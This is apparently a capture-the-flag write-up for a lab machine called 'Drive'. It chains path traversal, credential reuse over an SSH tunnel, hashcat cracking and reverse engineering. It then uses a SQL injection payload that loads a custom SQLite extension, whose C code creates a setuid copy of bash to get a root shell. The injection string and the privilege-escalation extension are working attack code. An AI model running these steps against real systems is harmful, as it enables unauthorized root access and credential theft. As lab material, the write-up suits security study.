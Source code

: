 # Enumeration

Open Ports: 22,80 (redirects to http://drive.htb)
Filtered Port: 3000

```
echo "10.10.11.235 drive.htb" | sudo tee -a /etc/hosts
```

# Foothold

## Path Traversal

The file http://drive.htb/100/getFileDetail/ is also available under http://drive.htb/100/block/ 

Iteration reveals ssh username and password in a document.

## Gitea ssh-portforwarding

The filtered port 3000 can be accessed from the intranet.

```
ssh -L 3000:drive.htb:3000 martin@10.10.11.235
```

Use the same password for the username martinCruz.

Password for the backups can be found in the script.

## Password cracking

Cracking some Sha1
```
hashcat -m 124 ../../hashes/sha1-hashes.txt /usr/share/wordlists/rockyou.txt.gz
```

# Root

## Reverseengeneer doodleGrive-cli

Letting Ghidra(CodeBrowser) analyzing the code shows a username and password to start the cli.

## SQL-Injection

On case5 is a SQL-Injection possible.

```
    snprintf(local_118,0xfa,
             "/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line \'UPDATE accounts_customuser SE T is_active=1 WHERE username=\"%s\";\'"
             ,local_148);
```

## load-extension

https://www.sqlite.org/loadext.html

```
gcc -g -fPIC -shared YourCode.c -o YourCode.so
```

```
"+load_extension(YourCode.so)--; 
```

### Example extension
```
#include <sqlite3ext.h> /* Do not use <sqlite3.h>! */
SQLITE_EXTENSION_INIT1

#include <stdlib.h>

#ifdef _WIN32
__declspec(dllexport)
#endif

int sqlite3_extension_init(
  sqlite3 *db, 
  char **pzErrMsg, 
  const sqlite3_api_routines *pApi
){
  SQLITE_EXTENSION_INIT2(pApi);

  system("/usr/bin/cp /bin/bash /tmp/b");
  system("/usr/bin/chmod +s /tmp/b");

  return SQLITE_OK;
}
```

Get root shell
```
/tmp/b -p
```


